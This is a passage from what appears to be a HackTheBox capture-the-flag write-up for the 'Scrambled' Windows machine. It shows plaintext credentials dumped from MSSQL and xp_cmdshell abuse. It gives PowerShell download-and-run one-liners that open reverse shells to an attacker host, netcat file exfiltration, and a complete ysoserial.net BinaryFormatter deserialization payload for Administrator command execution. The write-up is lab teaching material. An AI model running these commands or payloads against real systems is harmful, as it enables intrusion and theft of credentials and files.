SQL> SELECT * FROM INFORMATION_SCHEMA.TABLES;
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE
------------- -------------- ----------- ------------
ScrambleHR dbo Employees b'BASE TABLE'
ScrambleHR dbo UserImport b'BASE TABLE'
ScrambleHR dbo Timesheets b'BASE TABLE'
SQL> select * from UserImport;
LdapUser LdapPwd LdapDomain RefreshInterval IncludeGroups
--------- --------------------- -------------- --------------- -------------
MiscSvc ScrambledEggs9900 scrm.local 90 0 Looks like I got new Creds MiscSvc:ScrambledEggs9900.
Getting Reverse via xp_cmdshell
Since I have Administrative privileges on the SQL service, I can try to enable xp_cmdshell and then execute commands that way. The process is very simple using impacket-mssqlclient.py:
SQL> enable_xp_cmdshell
[*] INFO(DC1): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC1): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> xp_cmdshell whoami
output
--------------------------------------------------------------------------------
scrm\sqlsvc
NULL Since I have credentials for MiscSvc, a simple way to escalate to that user from this, is via powershell by creating a New PSCredential Object, but I need first to get a proper shell. I’ll use Invoke-PowerShellTcp.ps1 from Nishang project.
-
First, I’ll copy Invoke-PowerShellTcp.ps1 to my current directory and append at the end of this script the following line:
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.59 -Port 8989 -
Next, I’ll open a webserver on port 8000, and listen for reverse shell connection on port 8989:
$ python3 -m http.server Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...$ nc -lvnp 8989 listening on [any] 8989 ... -
Then, I’ll use powershell IEX expression to load the script directly into RAM from my server without installing anything or touching the disk:
SQL> xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.59:8000/Invoke-PowerShellTcp.ps1\");"
Switching to MiscSvc User and Getting user.txt
In order to switch to MiscSvc user I’ll use New PSCredential Object and Invoke-Command which are built in command from powershell:
PS C:\Windows\system32> $pass = ConvertTo-SecureString "ScrambledEggs9900" -AsPlainText -Force
PS C:\Windows\system32> $cred = New-Object System.Management.Automation.PSCredential ("scrm.local\MiscSvc", $pass)
PS C:\Windows\system32> Invoke-Command -ComputerName dc1.scrm.local -Credential $cred {whoami}
scrm\miscsvcNow I am able to execute commands as MiscSvc, so I’ll get another reverse shell as that user using the same technique, but I need to change the port number in the last line of Invoke-PowerShellTcp.ps1:
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.59 -Port 8990Invoke-Command -ComputerName dc1.scrm.local -Credential $cred {IEX (New-Object Net.WebClient).DownloadString("http://10.10.16.59:8000/Invoke-PowerShellTcp.ps1")}$ nc -lvnp 8990
listening on [any] 8990 ...
connect to [10.10.16.59] from (UNKNOWN) [10.10.11.168] 49552
Windows PowerShell running as user miscsvc on DC1
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Users\miscsvc\Documents>whoami
scrm\miscsvc
PS C:\Users\miscsvc\Documents> cat ..\Desktop\user.txt
39d**************************399- Notice here I used IEX expression directly without powershell command before it, otherwise it will throw an error because Invoke-Command already uses powershell as its interpreter not cmd.
Post Enumeration
After enumerating a little bit, I was looking for the custom application listening on port 4411:
PS C:\Shares> netstat -ano | Select-String LISTENING
...
TCP 0.0.0.0:4411 0.0.0.0:0 LISTENING 3116
...
PS C:\Shares> Get-Process -Id 3116
Handles NPM(K) PM(K) WS(K) CPU(s) Id SI ProcessName
------- ------ ----- ----- ------ -- -- -----------
439 15 17984 19940 3116 0 ScrambleServer PS C:\Program Files> dir
...
d----- 03/11/2021 20:49 ScrambleCorp
...
PS C:\Program Files> cd ScrambleCorp
PS C:\Program Files\ScrambleCorp> dir
PS C:\Program Files\ScrambleCorp> dir : Access to the path 'C:\Program Files\ScrambleCorp' is denied.So it looks like I cannot see the server’s directory, thus I can’t reverse engineer this server, and since Miscsvc is the only user, I can guess that the Administrator is the one responsible of it, which might be my way to escalate. I then found the client executable in one of the shares that Miscsvc had read permission to.
PS C:\Shares\IT\Apps\Sales Order Client> dir
Directory: C:\Shares\IT\Apps\Sales Order Client
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 05/11/2021 20:52 86528 ScrambleClient.exe
-a---- 05/11/2021 20:52 19456 ScrambleLib.dll So I’ll copy these two files to my kali machine. I’ll use powershell Invoke-RestMethod which will allow me to send Post requests including the file as parameter, then will catch this request from my kali machine using netcat. However, I need to copy these files to a directory that I own to avoid access denied error.
cp ScrambleClient.exe C:\users\miscsvc\documents\
PS C:\Shares\IT\Apps\Sales Order Client> cp ScrambleLib.dll C:\users\miscsvc\documents\
PS C:\Shares\IT\Apps\Sales Order Client> cd C:\users\miscsvc\documents\
PS C:\users\miscsvc\documents> Invoke-RestMethod -Uri "http://10.10.16.59:9001/" -Method Post -UseDefaultCredentials -Infile "ScrambleClient.exe"$ nc -lvnp 9001 | awk 'NR > 7 { print }' > ScrambleClient.exe- I used awk here to strip the first few lines of HTTP Request that include Request Line and Request Headers because I only need the content of the files.
- Also, I need to press ENTER key in my netcat listener in order to terminate the connection from Invoke-RestMethod.
Exploring ScrambleClient executable
From this point, I’ll spawn Commando VM (windows vm for penetration testing) in order to better debug the application using dnspy.

Looks like this application requires some credentials (the old ones did not work).
While inspecting it using dnspy, I found an interesting login check function:

Double clicking this function will show me how it handles the checking:

It appears that anyone with the name scrmdev can login to the application without even supplying a password!

Finding Potential Desirialization Vulnerability
Scrolling down a little bit in dnspy, I came accross an upload function that uploads some data to the server, but what’s interesting about it is that it uses serialization:

Digging deeper, I found that it uses BinaryFormatter object which is vulnerable to Desirialization Attack:

Since this is the client application, I can assume that the server also desirialzes this object using BinaryFormatter, thus is prone to Desirialization Attack.
Exploiting Desirialization Vulnerability
I found these blogs to be useful to understand how to exploit this vulnerabilty:
- https://medium.com/@frycos/yet-another-net-deserialization-35f6ce048df7
- https://vbscrub.com/2020/02/05/net-deserialization-exploits-explained/
I’ll use ysoserial.net to generate the payload:
> .\ysoserial.exe -g TypeConfuseDelegate -f BinaryFormatter -c 'cmd.exe /C type C:\Users\Administrator\Desktop\root.txt > C:\Users\Miscsvc\PWNED.txt' -o base64
UPLOAD_ORDER;AAEAAAD/////AQAAAAAAAAAMAgAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BQEAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLlNvcnRlZFNldGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAFQ291bnQIQ29tcGFyZXIHVmVyc2lvbgVJdGVtcwADAAYIjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0IAgAAAAIAAAAJAwAAAAIAAAAJBAAAAAQDAAAAjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0BAAAAC19jb21wYXJpc29uAyJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyCQUAAAARBAAAAAIAAAAGBgAAAFcvYyBjbWQuZXhlIC9DIHR5cGUgQzpcVXNlcnNcQWRtaW5pc3RyYXRvclxEZXNrdG9wXHJvb3QudHh0ID4gQzpcVXNlcnNcTWlzY3N2Y1xQV05FRC50eHQGBwAAAANjbWQEBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkKAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCwAAALACU3lzdGVtLkZ1bmNgM1tbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQYMAAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoGDQAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5Bg4AAAAaU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MGDwAAAAVTdGFydAkQAAAABAkAAAAvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIHAAAABE5hbWUMQXNzZW1ibHlOYW1lCUNsYXNzTmFtZQlTaWduYXR1cmUKU2lnbmF0dXJlMgpNZW1iZXJUeXBlEEdlbmVyaWNBcmd1bWVudHMBAQEBAQADCA1TeXN0ZW0uVHlwZVtdCQ8AAAAJDQAAAAkOAAAABhQAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGFQAAAD5TeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcyBTdGFydChTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKAQoAAAAJAAAABhYAAAAHQ29tcGFyZQkMAAAABhgAAAANU3lzdGVtLlN0cmluZwYZAAAAK0ludDMyIENvbXBhcmUoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGGgAAADJTeXN0ZW0uSW50MzIgQ29tcGFyZShTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKARAAAAAIAAAABhsAAABxU3lzdGVtLkNvbXBhcmlzb25gMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JDAAAAAoJDAAAAAkYAAAACRYAAAAKCw==Now let’s try to send this encoded payload to see if I get anything back.
Understanding How to send Data
I’ll use netcat to connect to the server, however I need to know how to send data for the server to accept it.
Again using dnspy:

This function appears to be taking two parameters, RequestType.UploadOrder and the Base64 Encoded Data. Digging deeper:


I can see that the request is done under this form: UPLOAD_ORDER;[Base64 Encoded Data]
Getting Command Execution As Administrator
Now I can connect using netcat and test if the payload will work:
$ nc scrm.local 4411
SCRAMBLECORP_ORDERS_V1.0.3;
UPLOAD_ORDER;AAEAAAD/////AQAAAAAAAAAMAgAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BQEAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLlNvcnRlZFNldGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAFQ291bnQIQ29tcGFyZXIHVmVyc2lvbgVJdGVtcwADAAYIjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0IAgAAAAIAAAAJAwAAAAIAAAAJBAAAAAQDAAAAjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0BAAAAC19jb21wYXJpc29uAyJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyCQUAAAARBAAAAAIAAAAGBgAAAFcvYyBjbWQuZXhlIC9DIHR5cGUgQzpcVXNlcnNcQWRtaW5pc3RyYXRvclxEZXNrdG9wXHJvb3QudHh0ID4gQzpcVXNlcnNcTWlzY3N2Y1xQV05FRC50eHQGBwAAAANjbWQEBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkKAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCwAAALACU3lzdGVtLkZ1bmNgM1tbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQYMAAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoGDQAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5Bg4AAAAaU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MGDwAAAAVTdGFydAkQAAAABAkAAAAvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIHAAAABE5hbWUMQXNzZW1ibHlOYW1lCUNsYXNzTmFtZQlTaWduYXR1cmUKU2lnbmF0dXJlMgpNZW1iZXJUeXBlEEdlbmVyaWNBcmd1bWVudHMBAQEBAQADCA1TeXN0ZW0uVHlwZVtdCQ8AAAAJDQAAAAkOAAAABhQAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGFQAAAD5TeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcyBTdGFydChTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKAQoAAAAJAAAABhYAAAAHQ29tcGFyZQkMAAAABhgAAAANU3lzdGVtLlN0cmluZwYZAAAAK0ludDMyIENvbXBhcmUoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGGgAAADJTeXN0ZW0uSW50MzIgQ29tcGFyZShTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKARAAAAAIAAAABhsAAABxU3lzdGVtLkNvbXBhcmlzb25gMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JDAAAAAoJDAAAAAkYAAAACRYAAAAKCw==PS C:\users\miscsvc> cat PWNED.txt
296**************************30aI can now execute commands as Administrator.
- If you’re following along, you might have noticed that I can get Administrator directly, and avoid the use of xp_cmdshell, by simply requesting a TGT for user Miscsvc after getting his credentials, and then use the ticket with impacket-smbclient.py (-k option like before) to read the shares and get ScrambledClient.exe then exploit the server.
HackTheBox Windows Active-Directory BruteForce Kerbrute Password-Cracking MSSQL xp_cmdshell Impacket-Scripts Kerberos Silver-Ticket Service-Principal-Names Reverse-Engineering Custom-Application .net DNSpy Desirialization BinaryFormatter ysoserial
3727 Words
2022-09-27 22:16